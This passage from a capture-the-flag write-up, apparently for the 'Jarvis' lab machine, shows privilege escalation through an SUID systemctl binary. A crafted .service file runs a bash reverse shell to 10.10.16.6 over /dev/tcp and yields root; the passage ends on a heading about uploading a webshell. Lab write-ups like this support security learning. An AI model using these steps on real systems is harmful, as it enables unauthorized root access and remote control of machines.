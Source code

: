 ```
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

### Exploiting systemctl for privilege escalation
From [GTFO bins](https://gtfobins.github.io/gtfobins/systemctl/), we realize that we can exploit the systemctl command with SUID privileges. We will modify the command to get a reverse shell with root privileges.

To do that, we have to first create a .service file to define the service that we are going to run. (NOTE:somehow this exploit doesn't work on /tmp directory and I can't figure out why)
```
pepper@jarvis:/dev/shm$ cat >exploit.service<<EOF
cat >exploit.service<<EOF
> [Service]
[Service]
> Type=notify
Type=notify
> ExecStart=/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.16.6/8000 0>&1'
ExecStart=/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.16.6/8000 0>&1'
> KillMode=process
KillMode=process
> Restart=on-failure
Restart=on-failure
> RestartSec=42s
RestartSec=42s
> 

> [Install]
[Install]
> WantedBy=multi-user.target
WantedBy=multi-user.target
> EOF
EOF
```

Next, we will have to link the .service file to systemd with the systemctl command and afterwards, all we have to do is to start the service to spawn the reverse shell.

```
pepper@jarvis:/dev/shm$ systemctl link /dev/shm/exploit.service
systemctl link /dev/shm/exploit.service
Created symlink /etc/systemd/system/exploit.service -> /dev/shm/exploit.service.
pepper@jarvis:/dev/shm$ systemctl start exploit.service
systemctl start exploit.service
```

### Obtaining root flag
```
root@jarvis:/# cat /root/root.txt
cat /root/root.txt
<Redacted root flag>
root@jarvis:/# 
```
## Post Exploitation
### Uploading webshell with sqlmap
